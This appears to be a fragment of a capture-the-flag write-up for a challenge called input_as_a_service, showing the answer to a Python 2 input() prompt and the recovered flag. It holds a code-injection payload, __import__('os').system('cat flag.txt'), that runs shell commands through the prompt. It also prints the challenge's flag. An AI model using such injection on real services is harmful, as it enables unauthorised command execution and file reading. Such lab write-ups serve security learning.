 ```python
[GCC 9.3.0]
Do you sound like an alien?
>>>

__import__("os").system("ls")
__import__("os").system("cat flag.txt")

CHTB{4li3n5_us3_pyth0n2.X?!}
flag.txt
input_as_a_service.py
0
0
```
```Flag = CHTB{4li3n5_us3_pyth0n2.X?!}```